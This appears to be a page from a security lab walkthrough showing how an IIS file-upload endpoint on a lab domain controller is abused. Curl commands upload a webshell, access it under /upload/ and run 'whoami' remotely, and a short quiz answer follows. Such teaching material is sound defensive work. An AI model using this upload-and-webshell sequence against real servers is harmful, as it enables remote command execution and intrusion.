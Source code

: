 #IIS Misconfiguration Abuse

The Internet Information Services (IIS) is Microsoft's web server software, used to host websites, web applications, and more. If there are vulnerable endpoints hosted through IIS, an attacker may exploit the service, reaching for example, Remote Command Execution.

In the Network Reconnaissance section of the lab, we've determined that there's an HTTP endpoint served at CAPTAIN called "Simple Uploader". Maybe it is a vulnerable endpoint. At first glance this endpoint allows users to upload arbitrary files to the DC through HTTP. If uploaded files can be accessed through HTTP as well, it presents a dangerous situation for the domain. If an attacker can upload a file and then access it through HTTP, the attacker can upload for example a webshell, and use it to run commands remotely. Let's take a look:

```
curl -X GET http://192.168.122.10

```

This confirms that we can upload files to this endpoint, it seems. Let's then upload the 'webshell.aspx' file, present in the webshell directory:
```
#in the webshell directory
curl -X POST http://192.168.122.10 -F "file=@webshell.aspx"
``` 

Now, let's try and access the file we've just uploaded. Maybe it's saved on a folder named 'upload'?
```
curl -X GET http://192.168.122.10/upload/webshell.aspx
```

Yes! We can access our webshell! Now we can execute commands through HTTP. Let's try it:
```
curl -X POST http://192.168.122.10/upload/webshell.aspx -d "param=whoami"
```

This way, we've reached remote command execution at the DC under the the context of the IIS Application Pool Identity (IIS APPPOOL\DefaultAppPool), which is the account IIS assigns to isolate each web application.

!!! question
    What has the attacker compromised in this attack?
??? success "Answer"
    The attacker has gained remote command execution on the Domain Controller (DC) through a vulnerable IIS web application that allows file uploads and HTTP access to uploaded files. By uploading a webshell and accessing it via HTTP, the attacker can now execute commands on the server under the security context of the IIS Application Pool Identity. At this point, the domain hasn't been compromised. 